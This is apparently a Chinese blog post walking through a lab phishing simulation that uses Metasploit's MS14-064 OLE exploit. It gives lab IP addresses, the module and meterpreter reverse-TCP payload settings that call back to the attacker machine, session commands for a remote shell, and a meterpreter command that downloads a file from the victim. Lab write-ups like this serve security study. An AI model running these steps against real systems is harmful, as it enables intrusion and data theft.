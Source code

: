 ```yaml
---
layout: post
title:  ms14-064漏洞利用(钓鱼模拟)
date: 2021-03-27 16:18:29 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP、跳板机IP和受害者IP](#0x0-确定攻击者ip跳板机ip和受害者ip)
- [0x1 使用kail的metasploit生成钓鱼网站链接](#0x1-使用kail的metasploit生成钓鱼网站链接)
- [0x2 将钓鱼网站链接放置在跳板机（服务器中）](#0x2-将钓鱼网站链接放置在跳板机服务器中)
- [0x3 受害者访问钓鱼链接](#0x3-受害者访问钓鱼链接)
- [0x4 kail建立连接以及获取shell](#0x4-kail建立连接以及获取shell)
- [0x5 搜索可疑文件](#0x5-搜索可疑文件)
- [0x6 下载可疑文件](#0x6-下载可疑文件)

<!-- /TOC -->
## 0x0 确定攻击者IP、跳板机IP和受害者IP

```c
192.168.88.130 //kail
192.168.88.138 //跳板机
192.168.88.139 //受害者
```
## 0x1 使用kail的metasploit生成钓鱼网站链接

```c
msfconsole
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reserse_tcp
set lhost 192.168.88.130
set allowpowershellprompt ture //设置浏览器插件
exploit
```
![](https://lcy2218.github.io/images/20210327-1.png)

## 0x2 将钓鱼网站链接放置在跳板机（服务器中）

![](https://lcy2218.github.io/images/20210327-2.png)
![](https://lcy2218.github.io/images/20210327-3.png)

## 0x3 受害者访问钓鱼链接

![](https://lcy2218.github.io/images/20210327-4.png)

## 0x4 kail建立连接以及获取shell

```c
sessions //查看会话
sessions -i 1 //获取shell
```
![](https://lcy2218.github.io/images/20210327-5.png)
![](https://lcy2218.github.io/images/20210327-6.png)
![](https://lcy2218.github.io/images/20210327-7.png)

## 0x5 搜索可疑文件
![](https://lcy2218.github.io/images/20210327-8.png)
![](https://lcy2218.github.io/images/20210327-9.png)

## 0x6 下载可疑文件

```c
download c:/lcy1.txt /root //meterpreter模式下
```
![](https://lcy2218.github.io/images/20210327-10.png)
![](https://lcy2218.github.io/images/20210327-11.png)